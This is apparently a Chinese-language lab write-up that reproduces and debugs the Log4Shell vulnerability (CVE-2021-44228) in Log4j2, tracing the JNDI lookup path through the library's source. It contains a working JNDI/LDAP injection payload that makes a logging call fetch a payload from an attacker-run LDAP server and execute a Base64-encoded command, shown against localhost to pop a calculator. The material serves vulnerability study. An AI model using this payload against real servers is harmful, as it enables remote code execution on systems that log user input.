log4j2 JNDI注入漏洞(CVE-2021-44228)

## 概述

Apache Log4j2是一个基于Java的日志记录工具。该工具重写了Log4j框架，并且引入了大量丰富的特性。该日志框架被大量用于业务系统开发，用来记录日志信息。大多数情况下，开发者可能会将用户输入导致的错误信息写入日志中。

由于Apache Log4j2某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响。

**此次漏洞触发条件为只要外部用户输入的数据会被日志记录，即可造成远程代码执行。（CNVD-2021-95914、CVE-2021-44228）**

影响版本：Apache Log4j 2.x <= 2.15.0-rc1

> 2.15.0-rc1 存在补丁绕过，但是很鸡肋

## 漏洞复现

Log4j2的这个漏洞本质上是JNDI注入 + LDAP的漏洞，而LDAP的利用方式在JDK 6u211、7u201、8u191、11.0.1之后，增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径给禁了。

因为是JNDI攻击(JNDI客户端请求服务端的漏洞攻击)，所以先准备一个JNDI环境，github上有师傅写了一些很好用的JNDI服务，很好用，我这里就不自己写了。我这里用的是：

https://github.com/zzwlpx/JNDIExploit

我看了一下这个师傅写的代码，其实就是[welk1n/*JNDI*-Injection-*Exploit*](https://github.com/welk1n/JNDI-Injection-Exploit)这个师傅写的JNDI注入检测工具的封装，支持解析ldap中的参数，通过参数生成对应的payload代码。

把代码clone下来，然后在本地直接使用IDEA运行即可，如果IDEA没法识别到对应的运行程序，则点击运行即可。



点击运行之后先放到一边，然后我们准备log4j的漏洞触发。

如果你对这个JNDI工具感兴趣，我也写过一篇文章分析这个工具：[JNDI-Injection-Exploit工具分析](../JNDI-Exploit分析/main.md)

这里不考虑绕过，只分析漏洞本身，所以我们只需要挑一个未修复的JDK版本即可，我这里随便找了一个本地的JDK 8u131，然后加入以下log4j依赖

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
```

然后写入以下代码：

```java
package log4j2_labs;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class CVE_2021_44228 {
    private static final Logger logger = LogManager.getLogger(CVE_2021_44228.class);
    public static void main(String[] args) {
        // Y21kIC9jIGNhbGM= 这里是cmd /c calc这个命令的Base64编码之后的写法，也就是漏洞触发之后要执行的命令
        logger.error("${jndi:ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=}");
    }
}
```

然后运行这份代码，看一下结果，计算器被成功弹出，代码执行成功。



## 漏洞调试

### log4j2触发JNDI分析

从网上的师傅那里学到一招调试的技巧，就是如果我知道这份恶意代码一定会执行到某一个函数的话。就把断点断在对应的函数上，最后去反向分析调用的过程即可，比如我就在Runtime.getRuntime.exec()这个方法处下一个断点，然后通过IDEA的堆栈往上就能找对应的调用逻辑。

然后我们开始分析代码是怎么执行的，同时可能的话最好能分析一下JNDIExploit这个项目做了什么东西。



然后先看函数被最开始调用的地方，这一块是什么意思呢，就是logIfEnabled这个方法中调用了两个函数，分别是isEnabled和logMessage，其实按照名字也大概能理解，就是如果这个日志是启动的(isEnabled)，那么就调用logMessage来记录日志，否则的话啥也不干就直接退出了。



我们来看一下isEnabled方法究竟干了什么事儿，isEnabled有好几个实现，但按照我们这里的逻辑其实最终会调用到Logger中的isEnable然后继续往下追踪，会发现其实调用的是一个filter方法，然后我们分析一下这个函数的逻辑。



前边的大概意思就是说，从配置中获取一个过滤器，然后中间的逻辑都是在判断是否要过滤。

如果过滤器为空则会走下边的逻辑。

* 如果level != null，则会返回false（默认我们调用logger.error、logger.info等方法时，都会对应一个枚举值，比如logger.error方法对应的就是Level.ERROR，logger.，其中枚举值还有一个int值，这个值是由StandardLevel这个枚举值定义的，StandardLevel和Level是绑定关系）
* 如果intLevel > level.intLevel，level.intLevel是 我们传过来的那个值，而intLevel这个值是提前定义好的，所以这个判断意思就是 我们当前的日志级别的值是否比intLevel更低，在log4j2中，日志等级(StandardLevel中的int值)越低则日志优先级越高，intLevel值默认是200，也就是ERROR级别

总结一下这块的逻辑：log4j2中有FATAL、ERROR、WARN、INFO这些日志级别，默认只会记录(处理)小于等于200级别的日志，也就是ERROR和FATAL级别的日志。





然后回到logIfEnabled这个方法中，进入到logMessage函数中，然后一路跟下去，中间的函数都没什么好说的都是一些嵌套的方法调用对参数进行处理，在LoggerConfig.log方法中会把很多字段封装成一个LogEvent对象，这个对象在后边有用到，我们继续往下跟。



这块的format是一个非常重要的方法，在这段代码中，有一个判断来判断event中是否有`${`这一个组合字符，如果有的话尝试把`${`标识的一串字符串拿到，然后调用StrSubstitutor.replace这个方法



然后调用到了StrSubstitutor.substitute方法。这个方法其实挺复杂的，是一个递归解析变量的方法，然后解析每一个变量，虽然逻辑复杂但是对于咱们做安全学习来说，看懂大概逻辑即可。

log4j2的这个方法的注释是这样的：

> Recursive handler for multiple levels of interpolation. This is the main interpolation method, which resolves the values of all variable references contained in the passed in text.
>
> 用于多级插值的递归处理程序。这是主要的插值方法，它解析传入文本中包含的所有变量引用的值。
>
> Params:
> event – The current LogEvent, if there is one. buf – the string builder to substitute into, not null offset – the start offset within the builder, must be valid length – the length within the builder to be processed, must be valid priorVariables – the stack keeping track of the replaced variables, may be null
>
> 参数：event–当前LogEvent（如果有的话）。buf–要替换的字符串生成器，而不是空偏移量–生成器中的起始偏移量必须是有效长度–要处理的生成器中的长度必须是有效的priorVariables–跟踪被替换变量的堆栈，可以是空的
>
> Returns:
> the length change that occurs, unless priorVariables is null when the int represents a boolean flag as to whether any change occurred.
>
> 返回：发生的长度变化，除非当int表示是否发生任何变化的布尔标志时priorVariables为null。

简单理解说就是比如说，buf中包含了嵌套的变量时，会递归拆分这些变量。然后调用resolveVariable来解析变量。



然后会获取所有的变量解析器，然后尝试使用解析器来处理这个变量，这个地方就非常关键了，其实可以看到这里是支持多种解析方式的，比如env、sys、ctx等等，还有我们最重要的漏洞点jndi，接着往下跟马上就到最终的处理逻辑了。



因为我们这里输入的是一个jndi:xxxx，所以这里的Strlookup自然而然也是一个JndiLookup处理器

这里边调用了JndiManager的lookup方法，这个jndiManager其实就是log4j2对JNDI的一层封装而已，



这里的Context其实就是JNDI中的上下文对象。可以发现这里就是最终的触发点了，请求了

> ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=



当你学过JNDI + LDAP的注入攻击方式应该就很清楚了，当前log4j2本质上就是一个LDAP的客户端，然后去外部请求LDAP的服务端。

然后放开断点，此时计算器就被弹出了。



## 补充

看起来log4j2的这个库只会导致log.error和log.fatal这两个方法会导致漏洞的触发，但其实不是的，我们还记得isEnabled方法吗，其中那个判断是这么写的：

```java
 public boolean isEnabled(final Level level, final Marker marker, final String message, final Throwable t) {
    return privateConfig.filter(level, marker, message, t);
}
boolean filter(final Level level, final Marker marker, final String msg, final Throwable t) {
    final Filter filter = config.getFilter();
    if (filter != null) {
        final Filter.Result r = filter.filter(logger, level, marker, (Object) msg, t);
        if (r != Filter.Result.NEUTRAL) {
            return r == Filter.Result.ACCEPT;
        }
    }
    // 重点就是这个intLevel，其实这个外部是能配置的，比如开发者希望记录INFO以上级别的日志，那么这个时候intLevel就是INFO级别的值
    return level != null && intLevel >= level.intLevel();
}
```

配置level有多种方法，比如在resource/中新增log4j2.xml文件：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
    <!-- 为日志打印配置一个输出的前缀 -->
    <Appenders>
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%d{yyyy-MM-dd HH:mm:ss} [%t] %-5p %c{1} - %m%n"/>
        </Console>
    </Appenders>

    <Loggers>
        <Root level="info"> <!-- 设置根级别为 debug -->
            <AppenderRef ref="Console"/>
        </Root>
    </Loggers>
</Configuration>

```

还有一种方法是通过代码API直接配置

```java
import org.apache.logging.log4j.core.config.Configurator;
import org.apache.logging.log4j.Level;
.......
public class CVE_2021_44228 {
    private static final Logger logger = LogManager.getLogger(CVE_2021_44228.class);
    public static void main(String[] args) {
        Configurator.setLevel("CVE_2021_44228", Level.INFO);
        logger.error("${jndi:ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=}");
    }
}
```

如果我们是以攻击者的视角，其实是无法干涉这些配置的，所以能否触发该漏洞，要看开发使用的配置。

回到我们前边说的那段描述这个漏洞的话：此次漏洞触发条件为**只要外部用户输入的数据会被日志记录**，即可造成远程代码执行。

**这一篇内容感觉已经写的很长了，所以这里就结束了，后边可能再更新一篇jndi关键词 绕过的相关内容吧。**